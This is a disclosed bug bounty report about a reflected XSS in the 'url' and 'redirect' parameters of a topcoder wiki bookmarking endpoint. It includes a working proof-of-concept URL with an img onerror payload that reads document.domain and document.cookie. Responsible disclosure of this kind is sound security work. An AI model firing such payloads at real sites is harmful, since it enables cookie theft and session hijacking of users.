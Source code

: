 # Reflected XSS on https://apps.topcoder.com/wiki/plugins/socialbookmarking/updatebookmark.action

## Report Details
- **Report ID**: 866829
- **URL**: https://hackerone.com/reports/866829
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-05T22:26:20.231Z
- **Disclosed**: 2020-05-12T13:41:20.958Z

## Reporter
- **Username**: meryem0x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: lab45

## Vulnerability Information
## Summary:
Hi :) A reflected XSS occurs when creating bookmarks.

## Steps To Reproduce:

A user can create bookmarks on https://apps.topcoder.com/wiki/plugins/socialbookmarking/updatebookmark.action. In this url  `redirect` and `url` parameters are vulnerable to XSS.

PoC:
`https://apps.topcoder.com/wiki/plugins/socialbookmarking/updatebookmark.action?url=Asd"><img src=X onerror=alert(document.domain)>&redirect=Asd"><img src=X onerror=alert(document.cookie)>`

{F816796}
{F816795}

## Impact

XSS can use to steal cookies or to run arbitrary code on victim's browser.

## Attachments
- 2020-05-06_01-20-55_ekran_g_r_nt_s_.png
- 2020-05-06_01-21-28_ekran_g_r_nt_s_.png
